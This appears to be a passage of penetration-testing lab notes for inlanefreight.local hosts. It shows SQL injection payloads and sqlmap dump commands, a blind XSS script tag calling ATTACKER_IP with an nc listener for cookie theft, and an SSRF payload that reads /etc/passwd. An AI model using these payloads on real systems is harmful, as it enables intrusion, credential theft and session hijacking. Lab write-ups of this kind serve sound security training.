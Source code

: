 ### 📊 status.inlanefreight.local - Log Search
```bash
# SQL injection discovery
Input: '
Error: "MySQL syntax error near '%'' at line 1"

# Manual UNION attack:
' union select null, database(), user(), @@version -- //

# SQLMap exploitation:
sqlmap -r sqli.txt --dbms=mysql --dbs
sqlmap -r sqli.txt --dbms=mysql -D status --tables
sqlmap -r sqli.txt --dbms=mysql -D status -T users --dump
```

### 🎫 support.inlanefreight.local - IT Support Portal
```bash
# XSS testing in ticket submission
Payload: "><script src=http://ATTACKER_IP:9000/TESTING_THIS></script>

# Blind XSS confirmation
nc -lvnp 9000
# Result: Connection from target with User-Agent: HTBXSS/1.0

# Cookie stealing setup:
# index.php - cookie logger
# script.js - cookie exfiltration payload

# Session hijacking result:
# Admin session cookie captured → Dashboard access
```

### 📦 tracking.inlanefreight.local - PDF Generator
```bash
# HTML injection testing
Input: <h1>test</h1>
Result: Rendered in PDF tracking field

# SSRF to Local File Read
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>

# Result: Local file contents displayed in generated PDF
```

### 🔐 vpn.inlanefreight.local - Fortinet SSL VPN
```bash
# Assessment result:
- Current version (no known CVEs)
- Common credentials unsuccessful
- Potential password spraying target
- Access denied error message
```
